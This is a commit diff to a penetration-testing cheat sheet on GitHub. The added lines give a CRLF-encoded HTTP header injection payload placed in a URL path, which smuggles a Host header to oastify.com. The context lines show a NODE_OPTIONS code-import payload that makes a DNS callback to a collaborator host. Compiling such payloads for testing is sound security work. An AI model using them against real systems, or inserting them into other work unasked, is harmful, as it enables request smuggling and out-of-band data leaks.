

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Adds example payload for HTTP request header injection via URL path.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -2052,3 +2052,8 @@ node --import='data:application/javascript,console.log(1337)'
    "NODE_OPTIONS": "--import=\"data:text/javascript,import dns from 'node:dns';dns.lookup('YOUR_COLLABORATOR_ID.oastify.com', x=>1)\""
 }
 ```
+
+### HTTP Header Injection via URL Path
+```
+/%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0a
+```
````
